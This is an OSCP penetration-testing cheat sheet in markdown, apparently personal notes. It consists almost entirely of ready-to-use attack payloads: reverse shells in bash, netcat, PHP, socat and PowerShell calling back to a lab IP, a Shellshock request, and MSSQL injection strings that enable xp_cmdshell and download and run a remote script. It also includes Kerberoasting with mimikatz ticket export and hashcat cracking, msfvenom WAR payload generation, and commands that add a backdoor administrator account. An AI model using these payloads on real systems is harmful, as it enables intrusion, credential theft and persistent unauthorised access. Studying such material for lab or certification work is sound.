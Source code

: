 ```yaml
---
title: OSCP Cheat Sheet
date: 2021-06-13 06:25:40
updated: 2021-06-14 12:25:40
tags:
- OSCP
- Penetration Test
---
```


# Pentest Cheatsheet

Bash reverse shell

```bash
bash -i >& /dev/tcp/192.168.19.35/8907 0>&1
```

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1"
```

Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" \
http://localhost:8080/cgi-bin/test.bin | tail
```

python PTY upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

MSSQL enable xp_cmdshell

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

MSSQL reverse shell with one-liner

```sql
exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')"
```

MSSQL enable xp_cmdshell and exec

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')";--
```

MSSQL check for stack query

```sql
'; WAITFOR DELAY '0:0:5'; --
```

nc reverse shell

```bash
nc -e /bin/bash 192.168.119.142 8907
```

PHP reverse shell with python

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");?>
```

PHP reverse shell with python with double quote escaped

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>
```

PHP reverse shell with bash -c

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/\"192.168.119.142\"/443 0>&1'");?>
```

PHP reverse shell with bash (won't work on /bin/sh -> /bin/dash)

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1");'
```

PHP reverse shell with bash -c with double quote escaped

```bash
php -r 'exec("/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1\"");'
```

socat TTY upgrade

```bash
socat file:`tty`,raw,echo=0 tcp-listen:8908
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.142:8908
```

curl multipart/form-data file upload example

```bash
curl -F files=@ciph3r.php http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

Powershell reverse shell

```powershell
powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')
```

Kerberoast

```powershell
# Get Users with SPNs
.\GetUserSPNs.sp1
# Get Service Tickets
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/xor-app23.xor.com:1433"
# Extract Tickets
mimikatz # kerberos::list /export
# Crack Tickets with tgsrepcrack.py
./tgsrepcrack.py rockyou.txt 2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi
# Or Hashcat/JohnTheRipper(much faster)
./kirbi2john.py ../2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi >> ../kerberos.hash
.\hashcat.exe -m 13100 -a 0 F:\kerberos.hash F:\rockyou.txt
```

Powershell Invoke-WebRequest

```powershell
powershell -c Invoke-WebRequest http://192.168.119.142:12345/
```

Java War file reverse shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.142 LPORT=8907 -f war > cipher.war
```

Windows show hidden files

[How-to｜Show Hidden Files Using Command Lines in Windows 10/8/7](https://www.diskpart.com/articles/show-hidden-files-command-line-8523.html)

```powershell
dir /a:h /b /s
```

MSSQL get other table from other databse

```sql
SELECT other_database..syscolumns.name, TYPE_NAME(other_database..syscolumns.xtype),NULL FROM other_database..syscolumns, other_database..sysobjects WHERE other_database..syscolumns.id=other_database..sysobjects.id AND other_database..sysobjects.name='other_table'--
```

Windows create remote login user

```powershell
net user /add cipher cipher
net localgroup administrators cipher /add
```

Runas Administrator

```powershell
runas /user:administrator <command>
```

Openssl Generate passwd

```bash
openssl passwd -1 -salt cipher cipher
```

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwNjYxNTcxOTBdfQ==
-->